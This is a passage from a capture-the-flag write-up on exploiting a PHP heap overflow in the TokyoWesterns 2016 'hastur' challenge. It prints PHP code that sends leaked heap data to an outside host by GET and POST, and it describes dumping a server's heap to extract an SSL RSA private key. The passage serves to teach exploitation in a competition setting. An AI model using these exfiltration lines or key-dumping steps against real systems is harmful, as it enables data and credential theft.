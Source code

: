     [destination] [victim] [text]

The offset 16871 and padding of 25 bytes is carefully chosen so that we overwrite
the beginning of the victim buffer with our fake pointer. We will overwrite
some bytes (at most 512) past the end of the text buffer (and other stuff in
between the buffers), but apparently there is nothing really important in this
heap, so that is not a problem. Time for some action:

{% highlight php %}
hastur_ia_ia_handler($text, $name);
echo $victim[0];
{% endhighlight %}

Now this will not work, because PHP will crash on shutdown while trying to
deallocate the `$victim` array and all of its members (some of which are just
pointers to `0x61616161`). But that's not a problem, we can get the data out
before shutdown:

{% highlight php %}
file_get_contents('https://kitctf.de/win/'. urlencode($data));
{% endhighlight %}

And sure enough:

    40.74.83.38 - - [05/Sep/2016:12:25:38 +0200] "GET /win/TWCTF%7Bd315e24abcc494289a9d6df422e77f67c6476e24_dump_dump_dump%7D%0A%00 HTTP/1.0" 404 541 "-" "-"

Check our Github to look at the [complete final exploit](https://github.com/kitctf/writeups/blob/master/tokyowesterns2016/hastur/flag2.php).

## Flag 3: Dump, Dump, Dump

For flag 3, we had a PCAP with an SSL-encrypted connection to port 31179 on the
same server. Presumably it would contain the flag. So our idea was to execute
our exploit against the SSL-enabled server and dump all of its heap memory,
looking for RSA keys. So we adapted our exploit to send the data back via
a POST request:

{% highlight php %}
$options = [
    'http' => [
        'header'  => "Content-type: application/x-www-form-urlencoded\r\n",
        'method'  => 'POST',
        'content' => http_build_query(['x' => $victim[0]])
    ]
];
$context  = stream_context_create($options);
$result = file_get_contents('http://kitctf.de:4444/', false, $context);
{% endhighlight %}

And used it to dump [three memory regions](https://github.com/kitctf/writeups/blob/master/tokyowesterns2016/hastur/heap_dump.tar.gz) tagged with `[heap]`. First we tried
grepping for the string `BEGIN RSA PRIVATE KEY`, but no such luck. Next we
found a utility called
[*passe-partout*](http://www.hsc.fr/ressources/outils/passe-partout/)
which can extract RSA keys from Apache memory via ptrace'ing a process. Of
course this is not directly applicable in our scenario, but we [modified it to
read the memory from files](https://github.com/niklasb/apache-ssl-key-extract)
and ran it over our dumps. And it found us the key:
